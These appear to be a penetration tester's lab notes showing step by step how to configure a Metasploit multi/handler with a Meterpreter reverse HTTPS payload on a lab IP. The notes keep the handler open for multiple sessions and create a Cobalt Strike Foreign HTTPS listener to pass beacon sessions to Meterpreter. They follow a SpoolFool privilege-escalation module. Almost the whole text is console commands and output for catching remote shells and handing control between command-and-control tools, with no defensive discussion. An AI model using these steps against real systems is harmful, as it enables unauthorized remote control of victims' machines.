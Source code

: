 
setup msfconsole `multi/handler`
```bash
msf6 exploit(windows/local/cve_2022_21999_spoolfool_privesc) > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > 
```
setup payload
```bash
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
payload => windows/meterpreter/reverse_https
msf6 exploit(multi/handler) > 
```
show options - set lhost/lport
```bash
msf6 exploit(multi/handler) > set lhost 10.10.14.39
lhost => 10.10.14.39
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_https):

Payload options (windows/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.39      yes       The local listener hostname
   LPORT     443              yes       The local listener port
   LURI                       no        The HTTP Path



Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > 
```
set ExitOnSession to False -> allows multiple sessions to exist in meterpreter without killing session
```bash
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
```
sets background meterpreter job, multi/handler is listening
```bash
msf6 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started HTTPS reverse handler on https://10.10.14.39:443
```
Create new Cobalt Strike Listener to pass session to meterpreter session
```bash
Listener -> New Listener -> Options below -> Save
NAME: msf - meterpreter https_session
PAYLOAD: Foreign HTTPS
HTTPS Host(Stager): 10.10.14.39
HTTPS Port(Stager): 443

```
![[Pasted image 20231023154336.png]]